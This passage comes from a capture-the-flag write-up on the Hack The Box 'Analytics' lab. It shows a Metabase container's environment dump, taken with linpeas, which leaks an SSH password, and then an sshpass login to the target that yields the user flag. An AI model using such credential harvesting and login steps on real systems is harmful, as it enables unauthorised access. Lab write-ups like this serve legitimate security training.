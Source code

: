 ```
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=linpeas.sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lyt............ <pass here>
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
HISTSIZE=0
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/tmp
HISTFILE=/dev/null
MB_DB_FILE=//metabase.db/metabase.db
```

We can get a username = __metalytics__ and a password. Those credentials allow us to ssh into the box and get the user flag.

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/analytics]
└─$ sshpass -p 'An4lyt......#' ssh metalytics@10.129.43.20
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Dec 15 03:37:51 AM UTC 2023

  System load:              0.134765625
  Usage of /:               93.5% of 7.78GB
  Memory usage:             29%
  Swap usage:               0%
  Processes:                204
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.129.43.20
  IPv6 address for eth0:    dead:beef::250:56ff:fe96:882b

  => / is using 93.5% of 7.78GB
  => There are 49 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


```